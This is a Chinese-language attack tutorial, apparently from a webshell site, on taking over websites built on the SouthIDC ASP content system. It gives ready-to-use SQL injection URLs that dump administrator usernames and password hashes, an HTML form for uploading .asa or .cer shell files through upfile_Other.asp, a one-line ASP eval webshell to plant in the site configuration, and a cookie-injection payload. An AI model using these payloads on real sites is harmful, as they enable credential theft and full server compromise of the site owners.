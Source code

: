 # 南方数据编辑器southidceditor注入漏洞

漏洞影响版本较老

 1.[注入](http://www.webshell.cc/tag/zhuru)点:`news_search.asp?key=7%' union select 0,username%2BCHR(124)%2Bpassword,2,3,4,5,6,7,8,9 from  admin where 1 or '%'='&otype=title&Submit=%CB%D1%CB%F7`
 直接暴管理员帐号密码(md5)

 2.登陆后台

 3.利用编辑器[上传](http://www.webshell.cc/tag/shangchuan):

 访问admin/southidceditor/admin_style.asp

 修改编辑器样式,增加asa(不要asp).然后直接后台编辑新闻上传.

 ========================================

 参考资料整理:

 1、通过upfile_other.asp漏洞文件直接取SHELL

 直接打开userreg.asp进行注册会员，进行登录，（在未退出登录的状态下）使用本地上传文件进行上传代码如下：

```
 <HTML><HEAD> <META http-equiv=Content-Type content="text/html; charset=gb2312"> <STYLE type=text/css>BODY { FONT-SIZE: 9pt; BACKGROUND-COLOR: #e1f4ee } .tx1 { BORDER-RIGHT: #000000 1px solid; BORDER-TOP: #000000 1px solid;  FONT-SIZE: 9pt; BORDER-LEFT: #000000 1px solid; COLOR: #0000ff;  BORDER-BOTTOM: #000000 1px solid; HEIGHT: 20px } </STYLE>

 <META content="MSHTML 6.00.2800.1400" name=GENERATOR></HEAD> <BODY leftMargin=0 topMargin=0> <FORM name=form1 action="http://www.webshell.cc/upfile_Other.asp"; method=post encType=multipart/form-data><INPUT type=file size=30  name=FileName> <INPUT type=file size=30 name=FileName1>  <INPUT xxxxx="BORDER-RIGHT: rgb(88,88,88) 1px double; BORDER-TOP:  rgb(88,88,88) 1px double; FONT-WEIGHT: normal; FONT-SIZE: 9pt;  BORDER-LEFT: rgb(88,88,88) 1px double; LINE-HEIGHT: normal;  BORDER-BOTTOM: rgb(88,88,88) 1px double; FONT-STYLE: normal;  FONT-VARIANT: normal" type=submit value=上传 name=Submit> <INPUT id=PhotoUrlID type=hidden value=0 name=PhotoUrlID> </FORM></BODY></HTML>
```

 将以上代码保存为html格式，替换代码中的网址，第一个框里选择图片文件，第二个框选择.cer、.asa或asp文件上传（后面需要加一个空格，貌似在IE8中进行使用不能后面加空格，加空格时就弹出选择文件对话框，我是找不到解决办法）。

 注：此方法通杀南方数据、良精系统、网软天下等

 2、通过注入秒杀管理员帐号密码，使用如下：

 `http://******/NewsType.asp?SmallClass=’%20union%20select%200,username%2BCHR(124)%2Bpassword,2,3,4,5,6,7,8,9%20from%20admin%20union%20select%20*%20from%20news%20where%201=2%20and%20’’=’`

 以上代码直接暴管理员帐号和密码，取SHELL方法如下：

 在网站配置[http://\*****\*/admin/SiteConfig.asp]的版权信息里写入`"%><%eval(request(chr(35)))%><%’`
 成功把shell写入http://\*****\*/inc/config.asp

 这里一句话chr(32)密码是“#”

 3、cookie注入

 清空地址栏，利用union语句来注入，提交：

 `javascript:alert(document.cookie="id="+escape("1 and 1=2 union select 1,username,password,4,5,6,7,8,9,10 from Admin"))`